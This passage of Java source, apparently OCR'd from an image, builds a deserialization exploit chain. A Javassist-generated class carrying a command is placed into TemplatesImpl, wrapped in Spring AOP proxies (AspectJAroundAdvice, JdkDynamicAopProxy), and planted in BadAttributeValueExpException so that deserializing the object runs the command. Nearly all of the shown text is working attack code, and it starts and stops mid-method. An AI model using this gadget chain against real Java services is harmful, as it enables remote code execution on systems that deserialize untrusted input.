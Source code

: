 ```
        ctClass.setSuperclass(classpool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] bytecode = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, &#34;_bytecodes&#34;, new byte[][]{bytecode});
        setFieldValue(templates, &#34;_name&#34;, &#34;6s6&#34;);

        Method Tem_newTransformer = TemplatesImpl.class.getMethod(&#34;newTransformer&#34;);
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(templates);
        AspectJAroundAdvice advice = new AspectJAroundAdvice(Tem_newTransformer, new AspectJExpressionPointcut(), factory);

        Object proxy1 = getProxy2(advice, Advice.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException, &#34;val&#34;, proxy1);
        unser(badAttributeValueExpException);
    }

    public static Object getProxy1(Object obj, Class[] clazzs) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);

        Constructor constructor = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;).getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        return java.lang.reflect.Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);
    }


    public static Object getProxy2(Object obj, Class&lt;?&gt; clazz) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);

        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor(
                (Advice) getProxy1(obj, new Class[]{MethodInterceptor.class, Advice.class})
        );
        advisedSupport.addAdvisor(advisor);

        Constructor constructor = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;).getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        return java.lang.reflect.Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{clazz}, handler);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object unser(Object obj) throws IOException, ClassNotFoundException {
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        final ObjectOutputStream objout = new ObjectOutputStream(out);
        objout.writeObject(obj);
        byte[] serializedData = out.toByteArray();
        final ByteArrayInputStream in = new ByteArrayInputStream(serializedData);
        final ObjectInputStream objin = new ObjectInputStream(in);
```